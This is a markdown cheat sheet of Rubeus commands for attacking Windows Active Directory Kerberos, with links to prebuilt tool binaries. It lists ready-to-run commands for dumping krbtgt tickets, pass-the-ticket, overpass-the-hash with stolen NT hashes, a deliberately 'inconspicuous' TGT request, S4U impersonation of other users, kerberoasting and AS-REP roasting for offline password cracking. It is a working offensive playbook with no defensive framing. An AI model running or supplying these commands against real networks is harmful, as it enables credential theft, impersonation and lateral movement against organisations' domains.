 ### Sources or compile directly from github
https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.0_Any/Rubeus.exe  
https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1  

## note: always use the fully qualified domain name to execute commands after getting a ticket

### List kerberos tickets applied to current logon session
```
Rubeus.exe triage
```

### Dump tickets inside memory
```
Invoke-Rubeus -Command 'dump /service:krbtgt'
```

### Pass ticket to current session (/ticket can also be pathToKirbiFile)
```
Invoke-Rubeus -Command 'ptt /ticket:<base64>'
```

### Purge all kerberos tickets
```
Invoke-Rubeus -Command 'purge'
```

### Get TGT for specific user (Overpass-the-Hash), /nowrap print with no line breaks, use /ptt to import to session
```
Invoke-Rubeus -Command 'asktgt /user:<user> /domain:<domain> /rc4:<ntHash> /nowrap'
```

### Get TGT using - the more inconspicuous way
```
Invoke-Rubeus -Command 'hash /user:<user> /domain:<domain> /password:<password>'
Invoke-Rubeus -Command 'asktgt /user:<user> /domain:<domain> /aes256:<aes> /dc:<domainController> /ptt'
```

### Impersonate user (use cifs as alternative service for http) (further request will need to use the fqdn)
```
Invoke-Rubeus -Command 's4u /impersonateuser:<targetUser> /msdsspn:http/<fqdnRhost> /ticket:<base64> /altservice:cifs'
```

### Create new process
```
Invoke-Rubeus -Command 'createnetonly /program:C:\Windows\System32\cmd.exe'
```

### Pass a ticket to the process
```
Invoke-Rubeus -Command 'ptt /luid:<luid> /ticket:<base64>'
```

### Kerberoasting using john format
```
Invoke-Rubeus -Command 'kerberoast /outfile:<file>.txt '
```

### Asrep roasting using john format 
```
Invoke-Rubeus -Command 'asreproast /outfile:<file>.txt '
```

### As-rep roasting for specific user and hashcat format
```
Invoke-Rubeus -Command 'asreproast /outfile:<file>.txt /format:hashcat /user:<user>'
```

